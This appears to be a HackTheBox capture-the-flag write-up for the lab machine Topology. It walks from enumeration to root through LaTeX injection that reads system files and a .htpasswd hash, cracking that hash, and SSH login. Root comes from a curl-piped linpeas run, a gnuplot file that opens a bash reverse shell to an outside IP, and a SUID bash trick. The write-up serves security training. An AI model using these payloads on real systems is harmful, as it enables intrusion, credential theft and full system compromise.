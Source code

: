 # HackTheBox Topology

Easy level CTF lab machine of the HackTheBox platform running Linux, containing a service with Latex Injection, password reuse, misconfiguration.

## Service Overview

The machine is assigned IP address 10.10.11.217, let's scan the ports with Nmap:

```bash
$ nmap -sT -sC -Pn -p1-65535 -oN 10.10.11.217 10.10.11.217
Nmap scan report for 10.10.11.217
Host is up (0.050s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   3072 dc:bc:32:86:e8:e8:45:78:10:bc:2b:5d:bf:0f:55:c6 (RSA)
|   256 d9:f3:39:69:2c:6c:27:f1:a9:2d:50:6c:a7:9f:1c:33 (ECDSA)
|_  256 4c:a6:50:75:d0:93:4f:9c:4a:1b:89:0a:7a:27:08:d7 (ED25519)
80/tcp open  http
|_http-title: Miskatonic University | Topology Group

Nmap done: 1 IP address (1 host up) scanned in 41.90 seconds
```

University web page with descriptions of projects and other contacts. There is a link to the Latex generator. Check the other domains:

```bash
$ gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://topology.htb --append-domain -t 20
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://topology.htb
[+] Method:          GET
[+] Threads:         20
[+] Wordlist:        /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:      gobuster/3.5
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Found: dev.topology.htb Status: 401 [Size: 463]
Found: stats.topology.htb Status: 200 [Size: 108]
Progress: 4989 / 4990 (99.98%)
===============================================================
```

Add all domains to /etc/hosts:

```bash
$ nano /etc/hosts
10.10.11.217 topology.htb latex.topology.htb dev.topology.htb stats.topology.htb
```

dev.topology.htb is closed using Basic Auth authentication (there is a .htpasswd file in the root of the directory).
The Latex generator can be used to perform a Latex Injection attack and retrieve the /var/www/dev/.htpasswd file.
I search in google for latex [exploit](https://book.hacktricks.xyz/pentesting-web/formula-doc-latex-injection).

```bash
\lstinputlisting{/usr/share/texmf/web2c/texmf.cnf}
$\lstinputlisting{/etc/passwd}$
/home/vdaisley

Server Apache/2.4.41 (Ubuntu)


$\lstinputlisting{/etc/apache2/apache2.conf}$
$\lstinputlisting{/etc/apache2/sites-available/000-default.conf}$
ServerAdmin vdaisley@topology.htb
DocumentRoot /var/www/dev
DocumentRoot /var/www/stats
DocumentRoot /var/www/latex

$\lstinputlisting{/var/www/stats/.htpasswd}$ -
$\lstinputlisting{/var/www/latex/.htpasswd}$ -
$\lstinputlisting{/var/www/dev/.htpasswd}$
vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0
```

There you got the password hash for the user ```vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0```

Use hashid to find out the hash type:

```bash
$ hashid 
$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTYO
Analyzing '$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTYO'
[+] MD5(APR) 
[+] Apache MD5
```

Let's put the hash in the hash file and run hashcat:

```bash
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 512/512 AVX512BW 16x3])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
calculus20       (vdaisley)
1g 0:00:00:03 DONE (2023-09-14 17:00) 0.3246g/s 323283p/s 323283c/s 323283C/s callel..caitlyn09
Use the "--show" option to display all of the cracked passwords reliably
Session completed

or

$ hashcat -m 1600 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

## SSH

Let's connect via SSH.

```bash
$ ssh vdaisley@10.10.11.217
calculus20
vdaisley@topology:~$ id
uid=1007(vdaisley) gid=1007(vdaisley) groups=1007(vdaisley)
vdaisley@topology:~$ ls
user.txt
vdaisley@topology:~$ cat user.txt
13791a4e6fe2bf091354a1529a281545
```

## Privilege escalation

```bash
$ curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
$ bash linpeas.sh

╔══════════╣ Interesting writable files owned by me or writable by everyone (not in Home) (max 500)
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-files
/dev/mqueue
/dev/shm
/home/vdaisley
/opt/gnuplot
```

Run gnuplot as root for all files/opt/gnuplot/*.plt and put the next content into file ```$ nano 1.txt```:

```bash
system "whoami"
# Reverse shell
system "bash -c 'bash -i >& /dev/tcp/10.10.16.27/4444 0>&1'"
```

```bash
$ cat 1.txt > /opt/gnuplot/test.plt
```

Run netcat, wait a few minutes and get the root shell:

```bash
$ nc -lnvp 4444
listening on [any] 4444 ...
id
id
connect to [10.10.16.27] from (UNKNOWN) [10.10.11.217] 43166
bash: cannot set terminal process group (43177): Inappropriate ioctl for device
bash: no job control in this shell
root@topology:~# id
uid=0(root) gid=0(root) groups=0(root)
root@topology:~# id
uid=0(root) gid=0(root) groups=0(root)
root@topology:~# ls
ls
root.txt
root@topology:~# cat root.txt
cat root.txt
034c7c4e5729c84904cb583cb9d07db5
root@topology:~#
```

or 

```bash
$ echo "system 'chmod u+s /bin/bash'" > /opt/gnuplot/exploit.plt
# wait a few minutes
$ /bin/bash -p
bash-5.0# id
uid=1007(vdaisley) gid=1007(vdaisley) euid=0(root) groups=1007(vdaisley)
```